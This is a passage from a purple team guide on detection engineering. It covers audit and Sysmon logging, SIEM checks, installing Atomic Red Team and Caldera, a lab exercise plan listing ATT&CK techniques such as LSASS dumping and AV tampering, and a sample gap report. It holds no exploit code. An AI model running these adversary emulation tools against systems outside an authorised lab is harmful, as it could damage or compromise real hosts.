auditpol /set /subcategory:"Process Creation" /success:enable /failure:enable
auditpol /set /subcategory:"PowerShell" /success:enable /failure:enable
auditpol /set /subcategory:"Logon" /success:enable /failure:enable
auditpol /set /subcategory:"Account Logon" /success:enable /failure:enable
auditpol /set /subcategory:"Object Access" /success:enable /failure:enable
```

```bash
# Enable PowerShell Script Block Logging via Registry
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" \
  /v EnableScriptBlockLogging /t REG_DWORD /d 1 /f

# Verify
reg query "HKLM\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"
```

#### Step 2 — SIEM Baseline

```bash
# Confirm logs are flowing into SIEM
# Check event counts in Splunk (SPL)
index=windows | stats count by sourcetype | sort -count

# Check for gaps — hosts not sending Sysmon
index=windows source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
| stats count by host
| eval last_seen=now()
| sort -count
```

#### Step 3 — Tooling Setup

```bash
# Purple team tooling checklist
# Install on isolated purple team jump box:

# 1. Atomic Red Team
Install-Module invoke-atomicredteam -Force
Install-AtomicRedTeam -getAtomics -Force

# 2. Caldera (Linux host)
git clone https://github.com/mitre/caldera.git --recursive /opt/caldera
cd /opt/caldera && pip3 install -r requirements.txt

# 3. VECTR (Docker host)
git clone https://github.com/SecurityRiskAdvisors/VECTR.git /opt/vectr
cd /opt/vectr && docker-compose up -d

# 4. Python ATT&CK libraries
pip install attackcti mitreattack-python sigma-cli

# 5. ATT&CK Navigator (local)
git clone https://github.com/mitre-attack/attack-navigator.git /opt/attack-navigator
```

---

### Phase 2: First Exercises (Months 3–6)

**Goal:** Run structured exercises against high-priority, low-complexity techniques. Build team confidence and establish the workflow.

**Recommended starter techniques:**

| Technique | Reason to Start Here |
|---|---|
| T1059.001 — PowerShell | Near-universal detection value, rich telemetry |
| T1003.001 — LSASS Dump | High-value credential theft, strong defender interest |
| T1547.001 — Registry Run Keys | Simple persistence, fundamental to most campaigns |
| T1027 — Obfuscated Files | Tests script block logging effectiveness |
| T1071.001 — HTTP C2 | Validates network monitoring capability |

**Exercise cadence:** One half-day session per week, 3–5 techniques per session.

---

### Phase 3: Mature Program (Months 6+)

**Goal:** Continuous, threat-intel-driven exercises integrated into security operations.

Characteristics of a mature purple team program:

- **Monthly exercises** covering 10–20 techniques per session
- **Threat-intel driven prioritisation** — new techniques from recent threat reports tested within 30 days
- **Automated atomic execution** — scheduled Atomic tests with SIEM correlation validation (DetectionLab approach)
- **SLA on detection gaps** — P1 gaps remediated within 7 days, P2 within 30 days
- **Quarterly ATT&CK Navigator review** with CISO
- **Integration with SecOps sprints** — detection engineering as a first-class sprint item
- **External validation** — annual red team engagement to validate purple team findings

---

## 8. Purple Team Feedback Loop Diagram



---

## 9. Sample Exercise Plan / Template

### Purple Team Exercise Plan

```
================================================================================
PURPLE TEAM EXERCISE PLAN
================================================================================
Exercise Name:    Q3-2024 — APT29 Initial Access & Execution Simulation
Exercise Date:    2024-09-15
Duration:         09:00 – 17:00 UTC
Location:         Remote (Zoom bridge + #purple-team-sept Slack channel)

RED TEAM LEAD:    [Red Team Lead Name]  red-lead@company.com
BLUE TEAM LEAD:   [SOC Lead Name]       soc-lead@company.com
EXERCISE OWNER:   [Security Manager]    secmgr@company.com

SCOPE:
  Target Hosts:   LAB-WIN10-01 (10.10.1.50)
                  LAB-WIN10-02 (10.10.1.51)
                  LAB-SRV-01   (10.10.1.100)
  Target Users:   lab-user01, lab-user02 (non-privileged)
                  lab-admin01 (local admin for privilege escalation tests)
  Excluded:       All production systems, all cloud environments

ABORT CRITERIA:
  - Any unplanned production impact
  - Red team detection on non-lab systems
  - SIEM availability drops below 80%

TECHNIQUE SCHEDULE:
================================================================================
 Time (UTC) | Technique ID  | Name                              | Priority
------------+---------------+-----------------------------------+---------
 09:15      | T1566.001     | Spearphishing Attachment          | HIGH
 09:45      | T1059.001     | PowerShell                        | HIGH
 10:15      | T1059.003     | Windows Command Shell             | MEDIUM
 10:45      | T1003.001     | LSASS Memory Dump                 | HIGH
 11:30      | T1547.001     | Registry Run Keys / Startup Folder| HIGH
 13:00      | T1055.001     | Dynamic-link Library Injection    | MEDIUM
 13:30      | T1071.001     | Web Protocols (C2 over HTTP)      | HIGH
 14:00      | T1041         | Exfiltration Over C2 Channel      | MEDIUM
 14:30      | T1027         | Obfuscated Files or Information   | MEDIUM
 15:00      | T1562.001     | Disable or Modify Tools (AV)      | HIGH
================================================================================

DETECTION CRITERIA:
  DETECTED      — SIEM alert fired AND SOC acknowledged within 15 minutes
  PARTIAL       — Telemetry exists but no alert OR alert with missing context
  NOT DETECTED  — No alert, or no telemetry at all

POST-EXERCISE:
  - Debrief call: 16:00 UTC same day
  - Gap analysis document: T+3 business days
  - Sigma rules submitted to SIEM: T+7 business days
  - VECTR report finalised: T+5 business days
  - Re-test scheduled: 2024-10-06
================================================================================
```

---

## 10. Common Challenges and Solutions

### Challenge 1: Blue Team Feels Threatened

**Problem:** SOC analysts feel that purple team exercises are designed to expose their failures and reflect poorly on them personally.

**Solution:**
- Frame exercises as *tool and process* evaluation, not individual performance review
- Use language: "We're testing the SIEM config" not "We're testing whether you can detect this"
- Share all planned techniques with SOC lead before execution
- Celebrate detections publicly; treat gaps as team problems to solve together

> **Note:** Trust between Red and Blue is the most critical non-technical factor in a successful purple team program. Build it deliberately.

---

### Challenge 2: No Telemetry — Cannot Detect Anything

**Problem:** First exercises reveal that critical logs are not being collected. Exercises become frustrating.

**Solution:**
```bash
# Systematic telemetry audit before scheduling exercises
# Use DetectionLab or PurpleCloud to build a proper lab first

# Quick Sysmon deployment check
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" -MaxEvents 5 |
  Select-Object TimeCreated, Id, Message

# Check Windows Event Forwarding is working
wecutil es  # List subscriptions
wecutil gs "PurpleTeamForwarding"  # Show subscription status
```

**Telemetry minimum viable product:**
- Sysmon with quality config on all Windows endpoints
- PowerShell Script Block Logging enabled
- Process creation audit (EventID 4688 with command line)
- Network connection logging (Sysmon EventID 3)
- All logs forwarded to SIEM with < 5 minute latency

---

### Challenge 3: Detection Engineering Backlog Grows Faster Than It Shrinks

**Problem:** Each exercise identifies 20+ detection gaps. The team can only close 3–5 per week. Gaps accumulate.

**Solution:**
- **Prioritise ruthlessly** — High-severity, frequently-used techniques first
- **Use Sigma** — Write generic rules that cover multiple technique variants at once
- **Implement SOAR/automation** — Auto-create detection tickets from purple team VECTR output
- **Dedicate engineering time** — At least 20% of each sprint to detection work

```bash
# Sigma to the rescue — one rule, many SIEM targets
# Write once, convert to Splunk, Elastic, QRadar, Microsoft Sentinel

sigma convert -t splunk   -p splunk_windows  rules/T1003.001.yml > splunk_rules.txt
sigma convert -t es-ql    -p ecs_windows     rules/T1003.001.yml > elastic_rules.txt
sigma convert -t sentinel -p azure_windows   rules/T1003.001.yml > sentinel_rules.txt
```

---

### Challenge 4: Exercises Feel Disconnected from Real Threats

**Problem:** Teams run the same 10 techniques every quarter. Results improve but the exercises no longer reflect actual adversary behaviour.

**Solution:**
- Subscribe to threat intelligence feeds (MISP, ISAC, commercial CTI)
- Map new threat reports to ATT&CK immediately

```bash
# Use OpenCTI or MISP to extract ATT&CK techniques from recent threat reports
# Query MISP for recent events with ATT&CK tags

curl -s https://misp.company.internal/events/restSearch \
  -H "Authorization: YOUR_API_KEY" \
  -H "Content-Type: application/json" \
  -d '{
    "tags": ["misp-galaxy:mitre-attack-pattern=\"PowerShell - T1059.001\""],
    "last": "30d",
    "returnFormat": "json"
  }' | python3 -m json.tool
```

---

### Challenge 5: Getting Buy-in for Dedicated Purple Team Time

**Problem:** Engineers and analysts are pulled back into day-to-day operations. Exercises get cancelled.

**Solution:**
- Calculate and present **ROI**: cost of a breach vs cost of purple team exercises
- Show **before/after detection rate** improvements to leadership
- Reference regulatory requirements (TIBER-EU, DORA TLPT, PCI DSS 11.4)
- Start with small, visible wins — a single exercise that closes a high-profile gap gets executive attention

---

### Challenge 6: Lab Environment Doesn't Reflect Production

**Problem:** Detections pass in the lab but fail in production due to different logging configs, OS versions, or security tool configurations.

**Solution:**
- Maintain a **production-representative lab** — same OS patch levels, same EDR config, same SIEM forwarder version
- Use **Infrastructure-as-Code** (Terraform, Ansible) to keep lab config in sync with production

```bash
# Ansible playbook snippet — ensure Sysmon config matches production
- name: Ensure Sysmon config matches production standard
  hosts: purple_lab
  tasks:
    - name: Copy production Sysmon config
      copy:
        src: files/sysmonconfig-production.xml
        dest: C:\Sysmon\sysmonconfig.xml

    - name: Reload Sysmon config
      win_command: sysmon64.exe -c C:\Sysmon\sysmonconfig.xml
```

---

## 11. Purple Team Exercise Report Template

```markdown
================================================================================
PURPLE TEAM EXERCISE REPORT
================================================================================

CLASSIFICATION: CONFIDENTIAL — Internal Use Only
Exercise Name:  Q3-2024 APT29 Simulation
Report Date:    2024-09-20
Prepared By:    [Red Team Lead], [Blue Team Lead]
Distribution:   CISO, SOC Manager, Security Engineering Lead

━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

1. EXECUTIVE SUMMARY
━━━━━━━━━━━━━━━━━━━

On 2024-09-15, the Purple Team conducted a collaborative simulation of APT29
initial access and execution TTPs across two lab endpoints. 10 techniques were
tested. 4 were detected and alerted correctly, 2 were partially detected, and 4
were not detected.

Key findings:
  ✅ PowerShell encoded command execution — SIEM alert fired in 47 seconds
  ✅ LSASS memory dump via ProcDump — EDR blocked and alerted
  ❌ Registry Run Key persistence — No telemetry (audit policy gap)
  ❌ DLL injection — No detection (Sysmon EventID 8 not enabled)

Overall detection rate: 40% (4/10 fully detected)
Partial detection rate: 20% (2/10 partial)
Mean Time to Detect:    2m 34s (detected techniques only)

━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

2. EXERCISE DETAILS
━━━━━━━━━━━━━━━━━━

Scope:          LAB-WIN10-01, LAB-WIN10-02
Duration:       09:00 – 16:30 UTC (7.5 hours)
Techniques:     10 (see Section 4)
Tool used:      Invoke-AtomicRedTeam v3.5, Caldera 5.0
ATT&CK Version: v14

━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

3. RESULTS SUMMARY
━━━━━━━━━━━━━━━━━

| # | Technique ID | Name                          | Result     | MTTD    |
|---|--------------|-------------------------------|------------|---------|
| 1 | T1566.001    | Spearphishing Attachment      | ⚠️ Partial  | N/A     |
| 2 | T1059.001    | PowerShell                    | ✅ Detected | 0:47    |
| 3 | T1059.003    | Windows Command Shell         | ⚠️ Partial  | N/A     |
| 4 | T1003.001    | LSASS Memory Dump             | ✅ Detected | 1:12    |
| 5 | T1547.001    | Registry Run Keys             | ❌ None     | N/A     |
| 6 | T1055.001    | DLL Injection                 | ❌ None     | N/A     |
| 7 | T1071.001    | Web Protocols C2              | ✅ Detected | 4:05    |
| 8 | T1041        | Exfiltration Over C2          | ❌ None     | N/A     |
| 9 | T1027        | Obfuscated Files              | ✅ Detected | 3:18    |
|10 | T1562.001    | Disable/Modify Tools          | ❌ None     | N/A     |

━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

4. DETAILED FINDINGS
━━━━━━━━━━━━━━━━━━━

FINDING-01 | T1547.001 — Registry Run Key Persistence
  Risk:          HIGH
  Gap Type:      Logging Gap
  Description:   Atomic test wrote a Run key to
                 HKCU\Software\Microsoft\Windows\CurrentVersion\Run
                 No telemetry was observed in SIEM. Registry auditing is not
                 enabled for this key path.
  Root Cause:    Windows Object Access audit policy for Registry not enabled.
                 Sysmon EventID 13 (RegistryEvent) not in current config.
  Remediation:
    1. Enable Sysmon Registry monitoring in sysmonconfig.xml (EventID 12/13/14)
    2. Enable "Audit Registry" in Windows Advanced Audit Policy
    3. Write detection rule for Run key modifications by non-system processes
  Owner:         Security Engineering
  Due Date:      2024-09-22 (P1 — 7 days)

FINDING-02 | T1055.001 — Dynamic-Link Library Injection
  Risk:          HIGH
  Gap Type:      Detection Gap (Telemetry exists, no rule)
  Description:   Sysmon EventID 8 (CreateRemoteThread) was present in raw logs.
                 No SIEM alert fired. No detection rule exists for this event.
  Root Cause:    Detection rule backlog — EventID 8 not yet covered.
  Remediation:
    1. Deploy Sigma rule: proc_creation_win_remote_thread_createremotethread.yml
    2. Tune to exclude known-good injectors (AV, legitimate monitoring tools)
  Owner:         Detection Engineering
  Due Date:      2024-09-29 (P1 — 14 days)

━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

5. METRICS
━━━━━━━━━

  Detection Rate:        40% (4/10 fully detected)
  Coverage Delta:        +40% vs previous exercise (was 0%)
  Mean Time to Detect:   2m 34s
  SIEM Alert Fidelity:   100% (0 false positives during exercise window)
  Gaps Identified:       6 (4 new, 2 known)
  Remediations Required: 6

━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

6. REMEDIATION TRACKING
━━━━━━━━━━━━━━━━━━━━━━

| Finding | Technique     | Action                          | Owner    | Due        | Status  |
|---------|---------------|---------------------------------|----------|------------|---------|
| F-01    | T1547.001     | Enable Sysmon Registry events   | SecEng   | 2024-09-22 | OPEN    |
| F-02    | T1055.001     | Deploy CreateRemoteThread rule  | DetEng   | 2024-09-29 | OPEN    |
| F-03    | T1562.001     | Write AV tamper detection rule  | DetEng   | 2024-09-29 | OPEN    |
| F-04    | T1041         | Enable DLP/proxy C2 detection   | NetSec   | 2024-10-06 | OPEN    |
| F-05    | T1566.001     | Improve email sandbox coverage  | SecEng   | 2024-10-06 | OPEN    |
| F-06    | T1059.003     | Add cmd.exe parent proc tuning  | DetEng   | 2024-09-22 | OPEN    |

━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

7. NEXT STEPS
━━━━━━━━━━━━

  1. Complete all P1 remediations by 2024-09-22
  2. Schedule re-test for 2024-10-06 (F-01 through F-06)
  3. Update VECTR assessment with all findings
  4. Update ATT&CK Navigator layer with current coverage
  5. Present results to CISO: 2024-09-23

================================================================================
END OF REPORT
================================================================================
```

---

> **Note:** This document should be reviewed and updated after each exercise cycle. As your detection capability matures, revisit earlier techniques to validate that remediations held and haven't regressed after infrastructure or tooling changes.

> **Warning:** Purple team exercise artefacts (logs, technique outputs, credentials used in tests) must be stored securely and access-controlled. They represent a detailed map of your detection gaps and could be valuable to an actual adversary if exfiltrated.

---

## Quick Reference Card

```
ATOMIC RED TEAM — Key Commands
  Invoke-AtomicTest T1059.001 -ShowDetails      # Show test details
  Invoke-AtomicTest T1059.001 -CheckPrereqs     # Check requirements
  Invoke-AtomicTest T1059.001 -TestNumbers 1    # Run specific test
  Invoke-AtomicTest T1059.001 -Cleanup          # Clean up artefacts

SIGMA — Convert Rules
  sigma convert -t splunk   -p splunk_windows  rule.yml
  sigma convert -t es-ql    -p ecs_windows     rule.yml
  sigma convert -t sentinel -p azure_windows   rule.yml

ATT&CK PYTHON
  pip install attackcti
  client.get_techniques_by_tactic('execution', 'enterprise-attack')
  client.get_techniques_used_by_group('APT29')

CALDERA API
  GET  /api/v2/abilities        # List available techniques
  POST /api/v2/adversaries      # Create adversary profile
  POST /api/v2/operations       # Start operation
  GET  /api/v2/operations/{id}  # Monitor progress

NAVIGATOR LAYER COLOURS (convention)
  #ff6666  Red    → Not Detected
  #ffff66  Yellow → Partial Detection
  #66ff66  Green  → Detected & Alerted
  #aaaaaa  Grey   → Not Yet Tested
```
